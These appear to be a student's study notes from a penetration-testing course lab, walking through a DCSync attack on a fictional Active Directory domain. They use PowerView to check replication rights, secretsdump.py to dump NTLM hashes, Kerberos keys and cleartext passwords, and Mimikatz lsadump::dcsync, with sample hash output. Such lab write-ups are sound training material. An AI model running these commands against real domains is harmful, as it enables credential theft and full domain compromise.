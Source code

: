 - [[#What is DCSync and How Does it Work?]]
- [[#Using PowerView]]
    - [[#View Get-DomainUser of adunn's Group Membership]]
    - [[#Using Get-ObjectAcl to Check adunn's Replication Rights]]
- [[#Performing the DCSync]]
    - [[#Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py]]
        - [[#Alternative Flags]]
        - [[#Listing Hashes, Kerberos Keys, and Cleartext Passwords]]
    - [[#Enumerating Further using Get-ADUser]]
    - [[#Checking for Reversible Encryption Option using Get-DomainUser]]
        - [[#Displaying the Decrypted Password]]
- [[#Using Mimikatz for DCsync]]
    - [[#Using runas.exe]]
    - [[#Performing the Attack with Mimikatz]]

> [!important] Based on our work in the previous section, we now have control over the user `adunn` who has DCSync privileges in the INLANEFREIGHT.LOCAL domain. Let's dig deeper into this attack and go through examples of leveraging it for full domain compromise from both a Linux and a Windows attack host.

# **What is DCSync and How Does it Work?**

> [!important]
> 
> - A technique for stealing Active Directory Password Database
> - using the built-in `Directory Replication Service Remote Protocol`
> - Allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes

> [!important] To perform this attack, you must have control over an account that has the rights to perform domain replication
> 
> ==A User with the following:==
> 
> 1. ==Replicating Directory Changes==
> 2. ==Replicating Directory Changes All permissions set==
> 
> Domain/Enterprise Admins and default domain administrators have this right by default.

# Using PowerView

```Bash
cd C:\Tools\

Import-Module .\PowerView.ps1
```

## **View** ==**Get-DomainUser**== **of adunn's Group Membership**

```Bash
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

![[Notion/CPTS/RESOURCES/image 25.png|image 25.png]]

## **Using** ==**Get-ObjectAcl**== **to Check adunn's Replication Rights**

```Bash
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

![[image 1 17.png|image 1 17.png]]

---

# Performing the DCSync

## **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

> [!important] Running the tool as below will write all hashes to files with the prefix `inlanefreight_hashes`. The `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file

```Bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

### Alternative Flags

1. `-just-dc-ntlm` flag if we only want NTLM hashes
2. `-just-dc-user <USERNAME>` to only extract data for a specific user
3. `-pwd-last-set` to see when each account's password was last changed
4. `history` if we want to dump password history
5. `-user-status` is another helpful flag to check and see if a user is disabled

### **Listing Hashes, Kerberos Keys, and Cleartext Passwords**

```Bash
ls inlanefreight_hashes*
```

## **Enumerating Further using Get-ADUser**

```Bash
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

## **Checking for Reversible Encryption Option using Get-DomainUser**

```Bash
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

We will notice the tool decrypted the password and provided us with the cleartext value.

### **Displaying the Decrypted Password**

```Bash
cat inlanefreight_hashes.ntds.cleartext
```

---

# Using Mimikatz for DCsync

> [!important] We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.
> 
> Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

## **Using runas.exe**

```Bash
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

- From the newly spawned powershell session, we can perform the attack:

## **Performing the Attack with Mimikatz**

```Bash
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```